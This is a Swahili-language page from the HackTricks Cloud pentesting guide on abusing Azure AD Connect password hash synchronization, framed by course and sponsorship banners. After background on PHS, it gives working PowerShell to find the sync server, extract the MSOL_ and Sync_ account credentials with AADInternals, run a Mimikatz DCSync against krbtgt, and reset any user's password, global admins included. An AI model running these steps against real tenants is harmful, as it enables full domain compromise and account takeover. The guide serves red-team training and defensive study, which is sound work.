 # Az - PHS - Synchronization ya Hash ya Nywila

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Synchronization ya hash ya nywila** ni moja ya njia za kuingia zinazotumiwa kufanikisha kitambulisho cha mchanganyiko. **Azure AD Connect** inasawazisha hash, ya hash, ya nywila ya mtumiaji kutoka kwa kifaa cha Active Directory cha ndani hadi kifaa cha Azure AD kwenye wingu.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ni **njia ya kawaida** inayotumiwa na makampuni kusawazisha AD ya ndani na Azure AD.

Wote **watumiaji** na **hash ya nywila** zinasawazishwa kutoka kwa ndani kwenda Azure AD. Hata hivyo, **nywila za maandishi wazi** au **hash za asili** hazitumwi kwa Azure AD.\
Zaidi ya hayo, **Vikundi vya usalama vilivyojengwa** (kama vile waendeshaji wa kikoa...) havisawazishwi na Azure AD.

Usawazishaji wa **hash** hufanyika kila **dakika 2**. Hata hivyo, kwa chaguo-msingi, **ukomo wa nywila** na **ukomo wa akaunti** hawasawazishwi katika Azure AD. Hivyo, mtumiaji ambaye **nywila ya ndani imeisha** (haikubadilishwa) anaweza kuendelea **kupata rasilimali za Azure** kwa kutumia nywila ya zamani.

Wakati mtumiaji wa ndani anapotaka kupata rasilimali ya Azure, **uthibitisho hufanyika kwenye Azure AD**.

**PHS** inahitajika kwa vipengele kama **Ulinzi wa Kitambulisho** na Huduma za Domain za AAD.

## Kubadilisha Mwelekeo

Wakati PHS imewekwa baadhi ya **akaunti zenye mamlaka** zinaundwa moja kwa moja:

* Akaunti **`MSOL_<installationID>`** inaundwa moja kwa moja kwenye AD ya ndani. Akaunti hii inapewa jukumu la **Akaunti za Usawazishaji wa Direktori** (angalia [nyaraka](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ambayo inamaanisha kuwa ina **idhini ya usawazishaji (DCSync) katika AD ya ndani**.
* Akaunti **`Sync_<jina la seva ya ADConnect ya ndani>_installationID`** inaundwa kwenye Azure AD. Akaunti hii inaweza **kusawazisha nywila ya MTUMIAJI YEYOTE** (aliyesawazishwa au wingu pekee) kwenye Azure AD.

Nywila za akaunti za mamlaka mbili zilizotangulia zinahifadhiwa kwenye **seva ya SQL** kwenye seva ambapo **Azure AD Connect imefungwa.** Waendeshaji wanaweza kutoa nywila za watumiaji hao wenye mamlaka kwa maandishi wazi.\
Hifadhidata iko katika `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Inawezekana kutoa maelezo ya usanidi kutoka kwa moja ya meza, moja ikiwa imefichwa:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Usanidi uliofichwa** umefichwa kwa kutumia **DPAPI** na una nywila za mtumiaji wa `MSOL_*` katika AD ya ndani na nywila ya **Sync\_\*** katika AzureAD. Hivyo, kwa kuhatarisha hizi inawezekana kufikia AD na AzureAD.

Unaweza kupata [muhtasari kamili wa jinsi nywila hizi zinavyohifadhiwa na kufichuliwa katika mazungumzo haya](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Kupata **seva ya Azure AD connect**

Ikiwa **seva ambapo Azure AD connect imefungwa** imejiunga na kikoa (inapendekezwa katika nyaraka), inawezekana kuipata kwa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Kudhuru MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Unaweza pia kutumia [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kupata sifa hizi.
{% endhint %}

### Kutumia Vibaya Sync\_\*

Kwa kudukua akaunti ya **`Sync_*`** ni rahisi **kusahihisha nenosiri** la mtumiaji yeyote (ikiwa ni pamoja na Waadmin wa Kimataifa)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Pia niwezekana kubadilisha **nywila za watumiaji wa buluu pekee** (hata kama hiyo ni ya kushangaza)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Pia niwezekano wa kudump nenosiri la mtumiaji huyu.

{% hint style="danger" %}
Chaguo lingine lingekuwa **kutenga ruhusa za mamlaka kwa madaftari ya huduma**, ambayo mtumiaji wa **Sync** ana **ruhusa** za kufanya, na kisha **kupata ufikiaji wa madaftari ya huduma** kama njia ya privesc.
{% endhint %}

### Usajili Usio na Vikwazo (Seamless SSO)

Inawezekana kutumia Usajili Usio na Vikwazo (Seamless SSO) na PHS, ambayo inaweza kutumika vibaya kwa njia nyingine. Angalia hapa:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Marejeo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

